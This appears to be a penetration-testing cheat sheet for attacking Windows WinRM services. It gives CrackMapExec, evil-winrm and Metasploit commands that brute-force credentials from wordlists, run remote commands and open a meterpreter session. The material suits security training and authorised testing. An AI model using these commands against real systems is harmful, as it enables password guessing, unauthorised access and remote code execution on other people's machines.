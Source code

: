 **CrackMapExec** (CME) is a popular post-exploitation tool used by security professionals, particularly in the context of penetration testing and red teaming. It is designed to automate common tasks in Windows environments, such as credential validation, lateral movement, and enumeration of network resources, by leveraging protocols like SMB, RDP, WinRM, and others.

```shell
crackmapexec -h
crackmapexec winrm <target_IP> -p <port_number>
crackmapexec <protocol> <target_IP>  -u <username> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
# protocol = winrm
# username = administrator
crackmapexec winrm <target_IP> -u <username> -p <password> -x "whoami"
crackmapexec winrm <target_IP> -u <username> -p <password> -x "systeminfo"

evil-winrm.rb -u administrator -p '<password>' - <target_IP>
```

We can also use **Metasploit**

auxiliary/scanner/winrm/winrm_auth_methods
auxiliary/scanner/winrm/winrm_login
auxiliary/scanner/winrm/winrm_cmd
exploit/windows/winrm/winrm_script_exec

```shell
service postgresql start && msfconsole
setg RHOSTS <target_IP>
setg RPORT <port_number>

auxiliary/scanner/winrm/winrm_auth_methods
# This module sends a request to an HTTP/HTTPS service to see if it is a WinRM service.
run
# Target supports two authentication types i.e Basic and Negotiate.

use auxiliary/scanner/winrm/winrm_login
# This module attempts to authenticate to a WinRM service.
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
# Note: This will take around 2-3 minutes.
# We are setting the PASSWORD because in the recent version of the "winrm_login" module, the PASSWORD option is required unless using Kerberos authentication. Metasploit will still use the USERPASS_FILE file.
exploit

sessions
sessions -i 1

use auxiliary/scanner/winrm/winrm_cmd
# This module runs arbitrary Windows commands using the WinRM Service
set USERNAME <username>
set PASSWORD <password>
set CMD whoami
exploit

# Now, we will use the winrm_script_exec exploit module to get the meterpreter session.
use exploit/windows/winrm/winrm_script_exec
set USERNAME <username>
set PASSWORD <password>
set FORCE_VBS true
exploit

# Or 'shell'
cd /
```